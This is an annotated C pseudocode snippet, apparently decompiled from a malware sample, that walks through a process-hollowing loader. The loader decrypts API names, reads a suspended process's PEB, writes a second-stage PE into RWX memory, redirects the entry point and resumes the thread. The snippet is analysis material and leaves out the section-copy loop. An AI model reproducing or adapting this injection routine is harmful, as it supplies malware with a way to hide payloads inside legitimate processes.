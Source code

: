 ```c

	// get the thread context of thread inside suspended process
	decryptStr_401300(str_GetThreadContext);
	hMod_2 = LoadLibraryA(str_kernel32dll);
	GetThreadContext = GetProcAddress(hMod_2, str_GetThreadContext);
	if ( !GetThreadContext(lpProcessInfo.hThread, lpContext) )
		return 1;

	decryptStr_401300(str_ReadProcessMemory);
	hMod_3 = LoadLibraryA(str_kernel32dll);
	ReadProcessMemory = GetProcAddress(hMod_3, str_ReadProcessMemory);
	
	decryptStr_401300(str_WriteProcessMemory);
	hMod_4 = LoadLibraryA(str_kernel32dll);
	WriteProcessMemory = GetProcAddress(hMod_4, str_WriteProcessMemory);

	// copy the imageBaseAddress('lpContext->Ebx + 0x8' ie. PEB->ImageBaseAddress) to 'lpImageBaseOfSusProc'
	// lpContext->Ebx = at the time of suspended state this register holds the address of PEB
	ReadProcessMemory(lpProcessInfo->hProcess, lpContext->Ebx + 0x8, lpImageBaseOfSusProc, 0x4, NULL);

	// allocate memory in suspended process with base address 0x400000(stg02+0x134) of size 0x18000(stg02+0x150) with RWX(0x40) access
	decryptStr_401300(str_VirtualAllocEx);
	hMod_5 = LoadLibraryA(str_kernel32dll);
	VirtualAllocEx = GetProcAddress(hMod_5, str_VirtualAllocEx);
	lpMemInTargetProc = VirtualAllocEx(
						lpProcessInfo.hProcess,
						stg02_nt_headers->OptionalHeader.ImageBase,
						stg02_nt_headers->OptionalHeader.SizeOfImage,
						0x3000,
						PAGE_EXECUTE_READWRITE);

	// first gonna write the header of stg02 in memory allocated inside suspended process
	WriteProcessMemory(lpProcessInfo.hProcess, lpMemInTargetProc, stg02, stg02_nt_headers->OptionalHeader.SizeOfHeaders, 0);

	// if number of sections in stg02 is not 0
	if ( ptr_stg02_nt_headers->FileHeader.NumberOfSections ) {
		do {
		  // gonna run a loop to write all section of stg02 to the suspended process memory
		} while ( noOfSectionWritten < ptr_stg02_nt_headers->FileHeader.NumberOfSections );
	}

	// set the PEB->ImageBaseAddress(lpContext->Ebx+0x8) of supended process to imageBaseAddress of stg02 
	WriteProcessMemory(lpProcessInfo.hProcess, lpContext->Ebx + 0x8, stg02_nt_headers->OptionalHeader.ImageBase, 4, 0);
	
	decryptStr_401300(str_SetThreadContext);
	hMod_6 = LoadLibraryA(str_kernel32dll);
	SetThreadContext = GetProcAddress(hMod_6, str_SetThreadContext);
	
	decryptStr_401300(str_ResumeThread);
	hMod_7 = LoadLibraryA(str_kernel32dll);
	ResumeThread = GetProcAddress(hMod_7, str_ResumeThread);

	// now set: lpContext+Eax = original entry point of stg02 ie. 0x4022f3(main)
	lpContext->Eax = lpMemInTargetProc + ptr_stg02_nt_headers->OptionalHeader.AddressOfEntryPoint;
	// gonna set thread context of suspend, after modifying eax in it
	SetThreadContext(lpProcessInfo.hThread, lpContext);
	ResumeThread(lpProcessInfo.hThread);    // thne resume the suspended thread
```